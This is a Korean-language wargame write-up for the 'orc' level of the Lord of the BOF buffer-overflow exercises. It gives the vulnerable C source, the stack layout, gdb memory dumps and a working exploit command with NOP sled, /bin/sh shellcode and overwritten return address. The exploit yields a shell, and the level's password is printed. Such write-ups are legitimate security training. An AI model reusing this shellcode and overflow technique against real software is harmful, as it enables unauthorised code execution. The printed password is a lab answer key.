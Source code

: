 ============================================================================================================
[redhat-lob] (4) orc
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1]"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="argv[1] address"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte)  <- strcpy overflow
    argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- argv[1] 주소
    ----------------
    HIGH    
    ================

|

Buffer Overflow
============================================================================================================


Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[1]의 47번째 문자열이 "\\xbf"이어야 함

.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./orc `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./orc `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb)
    Note: breakpoint 1 also set at pc 0x8048500.
    Breakpoint 2 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/goblin/orc1 `python -c 'print "a"*47+"\xbf"'`

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffaf8       -1073743112

    (gdb) i reg $ebp
    ebp            0xbffffb18       -1073743080

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffaf8:     0xbffffb18      0x400309cb      0x00000002      0xbffffb44
    0xbffffb08:     0xbffffb50      0x40013868      0x00000002      0x08048450
    0xbffffb18:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb28:     0xbffffb44      0x08048390      0x0804860c      0x4000ae60
    0xbffffb38:     0xbffffb3c      0x40013e90      0x00000002      0xbffffc37
    0xbffffb48:     0xbffffc49      0x00000000      0xbffffc7a      0xbffffc9c
    0xbffffb58:     0xbffffca6      0xbffffcb4      0xbffffcd3      0xbffffce2
    0xbffffb68:     0xbffffcfb      0xbffffd17      0xbffffd36      0xbffffd41
    0xbffffb78:     0xbffffd4f      0xbffffd91      0xbffffda3      0xbffffdb8
    0xbffffb88:     0xbffffdc8      0xbffffdd4      0xbffffdf2      0xbffffdfd
    0xbffffb98:     0xbffffe0e      0xbffffe1f      0xbffffe27      0x00000000
    0xbffffba8:     0x00000003      0x08048034      0x00000004      0x00000020
    0xbffffbb8:     0x00000005      0x00000006      0x00000006      0x00001000
    0xbffffbc8:     0x00000007      0x40000000      0x00000008      0x00000000
    0xbffffbd8:     0x00000009      0x08048450      0x0000000b      0x000001f7
    0xbffffbe8:     0x0000000c      0x000001f7      0x0000000d      0x000001f7
    0xbffffbf8:     0x0000000e      0x000001f7      0x00000010      0x0fabfbff
    0xbffffc08:     0x0000000f      0xbffffc32      0x00000000      0x00000000
    0xbffffc18:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc28:     0x00000000      0x00000000      0x36690000      0x2f003638
    0xbffffc38:     0x656d6f68      0x626f672f      0x2f6e696c      0x3163726f
    0xbffffc48:     0x61616100      0x61616161      0x61616161      0x61616161 
                          ^               ^               ^ argv[1] = 0xbffffc51
    0xbffffc58:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc68:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc78:     0x454c00bf      0x504f5353      0x7c3d4e45      0x7273752f
    ==========================================================================



RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode (21)
    SFP     (4byte)  <- shellcode (4)
    RET     (4byte)  <- argv[1] address
    argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- argv[1] 주소
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[1] 주소로 변경하여 해당 쉘코드가 실행되도록 한다. buffer의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./orc `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x4c\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀L▒▒▒
    Segmentation fault
    
    $ ./orc `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x51\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀Q▒▒▒
    bash$ whoami
    orc
    bash$ my-pass
    euid = 504
    cantata

